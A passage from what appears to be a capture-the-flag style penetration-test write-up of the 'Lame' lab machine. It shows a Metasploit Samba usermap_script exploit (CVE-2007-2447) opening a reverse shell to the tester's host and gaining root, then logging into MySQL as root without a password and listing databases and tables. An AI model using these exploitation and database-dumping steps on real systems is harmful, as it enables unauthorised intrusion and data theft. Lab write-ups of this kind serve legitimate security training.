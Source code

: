 #### 1.1.4.3 Exploit

```less
[msf](Jobs:0 Agents:0) exploit(multi/samba/usermap_script) >> exploit

[*] Started reverse TCP handler on 10.10.14.48:4444 
[*] Command shell session 1 opened (10.10.14.48:4444 -> 10.129.159.140:47175) at 2025-10-18 15:00:23 +0000

script /dev/null -c bash
root@lame:/# id && whoami 
uid=0(root) gid=0(root)
root
```
### 1.1.5 (high) mysql root access without password CWE-258

Successful connection to MySQL as the **root** user without a password using the shell gained from [1.1.3 (critical) Samba 3.0.20 Remote Command Execution as Root CVE-2007-2447](#114-critical-samba-3020-remote-command-execution-as-root-cve-2007-2447)
#### 1.1.5.1 Dump Database

```less
root@lame:/# mysql -u root
Welcome to the MySQL monitor.  Commands end with ; or \g.
Your MySQL connection id is 17
Server version: 5.0.51a-3ubuntu5 (Ubuntu)

Type 'help;' or '\h' for help. Type '\c' to clear the buffer.

mysql> SHOW DATABASES;
+--------------------+
| Database           |
+--------------------+
| information_schema | 
| dvwa               | 
| metasploit         | 
| mysql              | 
| owasp10            | 
| tikiwiki           | 
| tikiwiki195        | 
+--------------------+
7 rows in set (0.00 sec)
```

#### 1.1.5.2 Dump dvwa

```less
mysql> use dvwa;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
mysql> SHOW TABLES;
+----------------+
| Tables_in_dvwa |
+----------------+
| guestbook      | 
| users          | 
+----------------+
2 rows in set (0.00 sec)

mysql> SELECT * from guestbook;
+------------+-------------------------+------+
| comment_id | comment                 | name |
+------------+-------------------------+------+
```